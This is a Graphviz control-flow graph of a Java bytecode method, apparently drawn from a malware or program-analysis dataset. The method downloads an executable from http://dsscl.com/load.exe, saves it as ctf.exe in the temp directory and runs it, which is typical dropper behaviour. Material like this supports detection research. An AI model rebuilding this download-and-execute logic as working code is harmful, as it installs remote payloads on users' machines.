 digraph "" {
    "r0 := @this: sync"
    "new java.lang.StringBuilder"
    "r0 := @this: sync"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"tmp\""
    "dup1.r"->"push \"tmp\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"tmp\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "push \"\\ctf.exe\""
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \"\\ctf.exe\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"\\ctf.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r19"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r19";
    "new java.io.BufferedInputStream"
    "store.r r19"->"new java.io.BufferedInputStream";
    "store.r r0"
    "new java.io.BufferedInputStream"->"store.r r0";
    "load.r r0"
    "store.r r0"->"load.r r0";
    "new java.net.URL"
    "load.r r0"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "push \"http://dsscl.com/load.exe\""
    "dup1.r"->"push \"http://dsscl.com/load.exe\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"http://dsscl.com/load.exe\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>";
    "new java.io.FileOutputStream"
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"->"new java.io.FileOutputStream";
    "store.r r4"
    "new java.io.FileOutputStream"->"store.r r4";
    "load.r r4"
    "store.r r4"->"load.r r4";
    "load.r r19"
    "load.r r4"->"load.r r19";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r r19"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "new java.io.BufferedOutputStream"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.io.BufferedOutputStream";
    "store.r $r13"
    "new java.io.BufferedOutputStream"->"store.r $r13";
    "load.r $r13"
    "store.r $r13"->"load.r $r13";
    "load.r $r13"->"load.r r4";
    "push 2048"
    "load.r r4"->"push 2048";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>"
    "push 2048"->"specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>"->"push 2048";
    "newarray"
    "push 2048"->"newarray";
    "newarray"->"store.r r4";
    "goto load.r r0"
    "store.r r4"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r0"->"load.r r4";
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"
    "load.r r4"->"virtualinvoke <java.io.BufferedInputStream: int read(byte[])>";
    "store.i $i0"
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"->"store.i $i0";
    "load.i $i0"
    "store.i $i0"->"load.i $i0";
    "ifge load.r $r13"
    "load.i $i0"->"ifge load.r $r13";
    "ifge load.r $r13"->"load.r $r13";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"
    "load.r $r13"->"virtualinvoke <java.io.BufferedOutputStream: void close()>";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"->"load.r r0";
    "virtualinvoke <java.io.BufferedInputStream: void close()>"
    "load.r r0"->"virtualinvoke <java.io.BufferedInputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.BufferedInputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r19";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r19"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "ifge load.r $r13"->"load.r $r13";
    "load.r $r13"->"load.r r4";
    "push 0"
    "load.r r4"->"push 0";
    "push 0"->"load.i $i0";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"
    "load.i $i0"->"virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>";
}
